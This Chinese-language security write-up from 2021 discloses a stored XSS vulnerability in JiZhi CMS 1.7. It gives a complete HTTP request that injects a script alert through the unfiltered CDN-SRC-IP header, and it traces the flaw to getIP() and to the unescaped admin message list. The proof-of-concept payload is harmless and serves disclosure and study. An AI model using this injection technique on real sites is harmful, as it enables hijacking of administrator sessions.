








@Author：Y4tacker

@Time：2021/5/12

# 极致CMS1.7存在存储型XSS漏洞


## 漏洞演示

首先前台发包

```
POST /message/index.html?XDEBUG_SESSION_START=14451 HTTP/1.1
Host: xxx.com
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://yyy.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
CDN-SRC-IP:1"script><script>alert(1)</script><
Cookie: csrf_c65ac5=fb408103; PHPSESSID=8r5l9qe20eigmokooigec4e71i
Connection: close

tid=4&user=1&title=1
```

登录后台点击留言列表，点击编辑





## 利用点分析

在分析之前我们得知道一个东西，在极致CMS当中对于接收的参数是通过类似下面的函数

```
$w['body'] = $this->frparam('body',1,'','POST');
```

我们跟进这个函数，获取参数传入`format_param`



跟进这个函数，不难得到过滤的很严格，因此我也不打算绕过了



接下来，好吧我挣扎一天了，断断续续的终于找到了

最终找到了一个神奇的地方`Home/c/MessageController.php`，在index函数当中



获取IP，调用add函数



我们来看这个getIP函数，妥妥的无过滤，这个对应文件头是`CDN-SRC-IP`



接下来我们看看后台留言管理编辑功能处`A/c/MessageController.php`的messagelist函数处，发现通过执行sql取出数据后，只是简单的进行了遍历，并没有进行过滤后再display输出



因此我们在点击编辑后会造成存储型xss的产生

